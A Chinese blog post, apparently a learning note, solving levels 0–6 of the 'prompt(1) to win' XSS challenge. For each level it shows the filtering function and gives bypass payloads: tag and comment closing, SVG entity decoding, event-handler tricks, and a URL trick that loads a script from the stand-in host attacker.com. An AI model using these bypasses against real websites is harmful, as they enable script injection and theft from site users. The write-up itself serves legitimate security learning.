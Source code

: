 ```yaml
---
title: XSS学习系列Chapter 3：prompt(1) XSS挑战
date: 2019-03-11 14:18:29
tags: 
	- XSS
	- 靶场
categories: WEB漏洞学习
---
```


## 一、概述

`prompt(1) to win`是一个XSS挑战的靶场。

靶场地址：http://prompt.ml/0

目标：Payload不需要用户交互，当输入有效且能执行`prompt(1)`向量时，会自动提交用户的答案。并显示**YOU WON**字样。

<!-- more -->

## 二、挑战

### Level 0

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```

没有经过任何过滤就直接输出，直接考虑闭合即可。

Payload:

> `"><script>prompt(1)</script>`
>
> `"><img src=x onerror=prompt(1)>`

### Level 1

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}       
```

JS正则：

- 语法规则：`/正则表达式主体/修饰符(可选)``
- ``/<\/?[^>]+>/gi`：
  - 匹配`<除>以外任意>`或`</除>以外任意>``
  - ``/gi`标识全局搜索匹配、不区分大小写。

将匹配的替换为空，因此不能出现`<`和`>`不能同时出现。由于一个标签即使没有最后面的`>`也是可以被浏览器正确解析的。或者最后使用`//`

因此，Payload:

> `<img src=x onerror=prompt(1) //`
>
> `<img src=x onerror=prompt(1)(空格) `

### Level 2

```javascript
function escape(input) {
    // v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
} 
```

`[=(]`该正则含义为匹配`=`或`(`，因此这两个会被过滤。

考虑使用字符实体来替代`=`和`(`绕过，他们对应的字符实体为：`&#61;`、`&#40;`。

Payload：

>- `<svg><script>prompt&#40;1)</script>`

这里有个问题，`script`标签是属于**`Raw text elements`**类型的，该类型的标签的内容是不会被HTML解析器解码的，为什么该Payload还可行？

这是因为`<svg>`标签存在的缘故：

SVG 是使用 XML 来描述二维图形和绘图程序的语言。

简单来说就是处在`<svg>`标签内的内容会先被XML解析器解析，因此`&#40;`会被解码为`(`。

若支持ES6，还可以使用:

> ```javascript
> <script>eval.call`${'prompt\x281)'}\`</script>
> ```

`eval`会对其进行解码。

### Level 3 

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

输入的内容会被输出到HTML注释之中，并且对`->`进行过滤，替换为`-`，以防对注释符号进行闭合。

使用`--!>`来闭合注释绕过。

Payload:

> - `--!><img src=x onerror=prompt(1)>`

### Level 4

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}        
```

正则限制了只能加载当前域下的脚本，不允许跨域。

但URL的格式可以形如：`http://user:password@attacker.com/`，表示以`user:password`登录`attack.com`。

因此这里可以考虑使用Payload：`http://prompt.ml/@attacker.com/payload.js`。但浏览器只支持`http://prompt.ml@attacker.com/payload.js`这样的，但注意到存在`decodeURIComponent()`函数，该函数会进行URL解码，因此我们可以将`/`进行URL编码为`%2f`以绕过。

最终Payload：

> - `http://prompt.ml%2f@attacker.com/payload.js`

该题需要我们`attacker.com`服务器上有payload.js文件，文件内容`prompt(1)`。

### Level 5 

```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}      
```

过滤了`>`和`on`事件句柄以及`focus`，会将它们替换为`_`。

使用事件与等号可以不在一行特性进行绕过。并且使用`type="image"`覆盖`type="text"`。

Payload：

> - `" type="image" src=x onerror
>   =alert(1) `

### Level 6

```javascript
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}      
```

输入形如：`http://httpbin.org/post#{"name":"Matt"}`格式的URL，会把`#`号前的部分作为新建表单的`action`属性的值，`#`号后面的Json格式的数据的键和值分别对应`<input />`标签的`name`和`value`属性的值。

正常情况下可以通过将`action`设置成`javascript`等伪协议，来触发XSS，但是过滤了`script:`、`data:`。

这里涉及到的一个知识点就是JavaScript中`document.forms[0].action`表单DOM操作，会先选择表单中`name`属性值为`action`的输入框，如果找不到，才会选择`form`标签的`action`属性。

因此Payload：

> - `javascript:prompt(1)#{"action":"111"}`

`document.forms[0].action`找到的不是`form`标签的`action`属性，而是`name`属性值为`action`的`<input />`标签。

......

**参考链接**

https://www.cnblogs.com/Ashenone/p/9049341.html

https://blog.csdn.net/Ni9htMar3/article/details/77938899

https://blog.csdn.net/qq_35078631/article/details/77073233